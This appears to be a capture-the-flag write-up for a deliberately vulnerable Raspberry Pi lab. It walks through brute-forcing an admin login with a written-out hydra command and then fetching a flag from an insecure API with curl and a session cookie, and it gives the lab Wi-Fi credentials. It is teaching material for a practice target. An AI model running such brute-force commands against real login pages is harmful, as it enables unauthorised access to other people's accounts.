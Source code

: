 # Web Weak Credentials - Write-Up

## Overview
**Challenge Name**: Web Weak Credentials  
**Difficulty**: Medium  
**Category**: Web Security  
**Goal**: Exploit login and API vulnerabilities to retrieve a flag.

## What You’ll Need
- Browser or `curl`.
- Brute-force tool (e.g., `hydra` or `burp`.).
- UART-to-USB adapter (GPIO 4: RX, 6: Ground, 8: TX; 115200 baud).
- Terminal emulator (`minicom`)[optional].
- Enumeration Utility (e.g., `nmap`).
- Wi-Fi client (SSID: `DVRPI`, password: `dvrpiconnect`).

## Challenge Description
A web server (`http://192.168.4.1:8008`) hosts a PHP application with a login page vulnerable to brute force and an insecure API. Brute-force the login to access the API and retrieve the flag.

## How to Solve It
1. **Connect to Wi-Fi**:
   - Join SSID `DVRPI` (password: `dvrpiconnect`).
     
2. **Brute-Force Login**:
   
   - Visit `http://192.168.4.1:8008/login.php`.
   - Use `hydra`:
     ```bash
     hydra -l admin -P wordlist.txt 192.168.4.1:8008 http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid credentials"
     ```
     - Username: `admin`.
       
4. **Exploit API**:
   - Access `/api/getflag` with session cookie:
     
     ```bash
     curl -b "PHPSESSID=your_session_id" http://192.168.4.1:8008/api/getflag
     ```
     - Retrieve: `flag{ ... }`.

## What You Learn
- Brute force attacks.
- API security weaknesses.
- Session management in web applications.

## Notes
- **SSH**: Root login enabled (`PermitRootLogin yes`).
- **Wi-Fi AP**: Static IP 192.168.4.1, DHCP for clients (192.168.4.100-150).
- **GPIO**: Pins 24, 21, 23, 18 (~0.35V) may be faulty.
- Check `journalctl -u nginx` for logs.

## Resources
- **DVRPi Documentation**: `/challenges/7. Web Weak Credentials - Write-Up.md`.
  
---

**Author**: [Exploit Security Team](https://www.exploitsecurity.io)  
**License**: GPL V3.0  
**Repository**: [DVRPi GitHub](https://github.com/exploitsecurityio/DVRPi)  
**Last Updated**: May 25, 2025
